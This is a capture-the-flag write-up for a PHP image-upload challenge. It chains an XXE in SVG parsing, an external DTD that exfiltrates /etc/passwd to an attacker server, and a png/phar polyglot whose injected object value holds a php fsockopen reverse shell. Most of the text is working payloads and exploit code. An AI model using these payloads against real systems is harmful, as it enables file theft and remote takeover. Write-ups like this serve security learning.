 # rubenscube

**Category**: web
**Author**: @viktoredstrom, @mattiasgrenfeldt

---
We're prompted with this website which allows us to upload images. The robot is an obvious hint to checkout `/robots.txt`:

```
User-agent: *
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
Disallow: source.zip
```

We get the source for free, neat. Here's the relevant code for the upload itself, `upload.php`:
```php
<?php
session_start();

function calcImageSize($file, $mime_type) {
    if ($mime_type == "image/png"||$mime_type == "image/jpeg") {
        $stats = getimagesize($file);  // Doesn't work for svg...
        $width = $stats[0];
        $height = $stats[1];
    } else {
        $xmlfile = file_get_contents($file);
        $dom = new DOMDocument();
        $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
        $svg = simplexml_import_dom($dom);
        $attrs = $svg->attributes();
        $width = (int) $attrs->width;
        $height = (int) $attrs->height;
    }
    return [$width, $height];
}


class Image {

    function __construct($tmp_name)
    {
        $allowed_formats = [
            "image/png" => "png",
            "image/jpeg" => "jpg",
            "image/svg+xml" => "svg"
        ];
        $this->tmp_name = $tmp_name;
        $this->mime_type = mime_content_type($tmp_name);

        if (!array_key_exists($this->mime_type, $allowed_formats)) {
            // I'd rather 500 with pride than 200 without security
            die("Invalid Image Format!");
        }

        $size = calcImageSize($tmp_name, $this->mime_type);
        if ($size[0] * $size[1] > 1337 * 1337) {
            die("Image too big!");
        }

        $this->extension = "." . $allowed_formats[$this->mime_type];
        $this->file_name = sha1(random_bytes(20));
        $this->folder = $file_path = "images/" . session_id() . "/";
    }

    function create_thumb() {
        $file_path = $this->folder . $this->file_name . $this->extension;
        $thumb_path = $this->folder . $this->file_name . "_thumb.jpg";
        system('convert ' . $file_path . " -resize 200x200! " . $thumb_path);
    }

    function __destruct()
    {
        if (!file_exists($this->folder)){
            mkdir($this->folder);
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
}

new Image($_FILES['image']['tmp_name']);
header('Location: index.php');
```

Cool, so we're allowed to upload jpeg, png and **svg**, there's a trivial XXE vulnerability inside `function calcImageSize(...)`. Lets craft an malicious SVG file:

```html
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1:3838/xxe.dtd">
%sp;
%param1;
]>
<svg>&sp;</svg>
```
Where xxe.dtd is our malicious DTD:
```html
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://localhost:1338/?%data;'>">
```

Localhost above is switched for our servers IP. We're now able to read any file on the filesystem, but where's the flag exactly? As it turns out there's more to this challenge. By using the `phar://` handler  we're able to perform a PHP object injection, this makes a lot of sense in hindsight if one just looks at how ``` Image``` is structured. By controlling `$this->folder` we're able to pass any command we want into `system()`.

But we can't just straight up upload some phar file, we're still resticted to only being able to upload images. Polyglot to the rescue!

There seems to be a well spread way of making jpg/phar polyglot files. We found this repo which implemented the embedding: `https://github.com/kunte0/phar-jpg-polyglot`. But the jpg/phar polyglot it produced didn't get the right mime type from the php function `mime_content_type()`. Instead, by putting an entire png image as the `$prefix` as the code does for gif/phar polyglots we created a png/phar polyglot. This got recognized by `mime_content_type()` as a png image.

```php
<?php
function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();

    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

...

$object = new Image("blahbloh"); // The class Image is the same as the above source
$object->folder = '; $(php -r \'$sock=fsockopen("127.0.0.1",6666);exec("/bin/sh -i <&3 >&3 2>&3");\') ; #'; // Swap localhost for our servers ip.

$tempname = 'temp.phar';
$outfile = 'out.png';
$payload = $object;

$prefix = "\x89\x50\x4e\x47...."; //2long :( - prefix is a png file

var_dump(serialize($object));
file_put_contents($outfile, generate_base_phar($payload, $prefix));
```

And our final xxe.dtd being:
```html
<!ENTITY % data SYSTEM "phar://...{path to polyglot phar image}.../test.txt">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://localhost:1338/?%data;'>">
```

Bingo, now we have a shell. There's the binary `flag_dispenser`, and by running it gives us our flag: `midnight{R3lying_0n_PHP_4lw45_W0rKs}`
